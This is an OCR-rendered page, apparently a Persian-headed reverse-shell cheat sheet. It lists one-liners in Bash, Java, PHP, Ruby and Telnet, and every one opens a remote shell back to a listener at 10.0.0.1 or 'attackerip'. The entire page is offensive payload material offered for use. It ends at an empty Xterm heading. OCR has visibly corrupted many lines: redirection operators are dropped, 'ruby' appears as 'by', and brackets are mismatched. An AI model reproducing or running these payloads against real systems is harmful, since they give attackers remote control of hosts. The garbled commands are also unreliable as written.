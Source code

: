 
### زبان Bash

```text
bash -i & /dev/tcp/10.0.0.1/8080 0 &1
```

### زبان Java

```text
r = Runtime.getRuntime()
p = r.exec( ["/bin/bash","-c","exec 5 /dev/tcp/10.0.0.1/2002;cat &5 |
while read line; do \$line 2 &5 &5; done"] as String[])
p.waitFor()
```

### زبان Php

```text
php -r '$sock=fsockopen("10.0.0.1", 1234) ;exec("/bin/sh -i &3 &3 2 &3");'
```

### زبان Ruby

```text
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i; exec
sprintf("/bin/sh -i &%d &%d 2 &%d",f,f,f)'
```

### زبان Ruby بدون نیاز به /bin/sh

```text
by -rsocket -e 'exit if
fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd, " r
") {| io|c.print io.read}end'
```

### زبان Ruby برای windows

```text
ruby -rsocket -e
'c=TCPSocket.new("attackerip","4444");while(crnd=c.gets);IO.popen{cmd,"r" ) {|
io|c.print io.read}end'
```

### دستور Telnet

```text
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
--OR--
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445
```

### دستور Xterm
